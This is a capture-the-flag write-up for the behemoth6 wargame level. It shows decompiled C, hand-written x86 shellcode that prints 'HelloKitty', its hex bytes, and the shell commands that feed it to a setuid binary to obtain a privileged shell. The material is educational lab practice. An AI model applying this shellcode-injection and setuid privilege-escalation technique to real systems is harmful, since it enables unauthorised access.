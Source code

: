 We have in this challenge two executables, `behemoth6` and `behemoht6_reader`. 
As seen in the decompiled main() of `behemoth6`, it opens `behemoth6_reader` as a pipe:
```c
__stream = popen("/behemoth/behemoth6_reader","r");
```
Checks if the pipe was created succesfully:
```c
if (__stream == (FILE *)0x0) {
puts("Failed to create pipe.");
                /* WARNING: Subroutine does not return */
exit(0);
}
```
Gets a string from the pipe to allocated space on the heap and closes the pipe:
```c
__s1 = (char *)malloc(10);
fread(__s1,10,1,__stream);
pclose(__stream);
```
Then compares it to `HelloKitty`:
```c
iVar1 = strcmp(__s1,"HelloKitty");
```
If it does equal we get a shell, otherwise an error:
```c
if (iVar1 == 0) {
puts("Correct.");
__euid = geteuid();
__ruid = geteuid();
setreuid(__ruid,__euid);
execl("/bin/sh","sh",0);
}
else {
puts("Incorrect output.");
}
```


So, to get a shell we need to make `behemoht6_reader` print `HelloKitty` to stdout.
Let's see `behemoht6_reader`'s code.
in the decompiled main function, if first tries to open a file named `shellcode.txt`.
```c
__stream = fopen("shellcode.txt","r");
if (__stream == (FILE *)0x0) {
puts("Couldn\'t open shellcode.txt!");
}
```
If it did open it succesfully, it executes its contens, so it's obviously a shellcode (also from the obvious name):
```c
else {
fseek(__stream,0,2);
__size = ftell(__stream);
rewind(__stream);
__ptr = (code *)malloc(__size);
fread(__ptr,__size,1,__stream);
fclose(__stream);
for (local_14 = 0; local_14 < (int)__size; local_14 = local_14 + 1) {
    if (__ptr[local_14] == (code)0xb) {
    puts("Write your own shellcode.");
                /* WARNING: Subroutine does not return */
    exit(1);
    }
}
(*__ptr)();
}
```
So, to get a shell we need to make `behemoht6_reader` print `HelloKitty` to stdout right? And we can run a shellcode on `behemoht6_reader`, so lets just write a simple shellcode that prints `HelloKitty` to stdout, which will be picked by `behemoth6`.
The assembly code for the shellcode is:
```asm
; 32 bit calling convention: https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit
sub esp, 32 ; Allocate space on the stack
push 0 ; push the NULL byte of the "HelloKitty" string
; push "HelloKitty" in reversed and little endian order
push 0x7974 
push 0x74694B6F
push 0x6C6C6548
mov eax, 4 ; syscall number for write(3)
mov ebx, 1 ; stdout file descriptor
mov ecx, esp ; the stuck houses the "HelloKitty" string
mov edx, 10 ; "HelloKitty" is 10 bytes long
; zero out the rest of the relevent registers to make sure they don't interfere
xor esi, esi 
xor edi, edi
xor ebp, ebp
int 0x80 ; syscall 
```
Now, to make `shellcode.txt` with our shellcode we need to compile it to a string we can have in the `shellcode.txt` file, we can do that with this site: https://defuse.ca/online-x86-assembler.htm#disassembly.
To make `behemoth6_reader` run our shellcode we need to simply run a few shell commands:
```sh
mkdir /tmp/6 # create a new directory in which we can write out shellcode.txt file
cd /tmp/6
printf "\x83\xEC\x20\x6A\x00\x68\x74\x79\x00\x00\x68\x6F\x4B\x69\x74\x68\x48\x65\x6C\x6C\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\x89\xE1\xBA\x0A\x00\x00\x00\x31\xF6\x31\xFF\x31\xED\xCD\x80" > shellcode.txt # print the compiled shellcode into shellcode.txt
/behemoth/behemoth6 # run behemoth6 and get a shell!
```
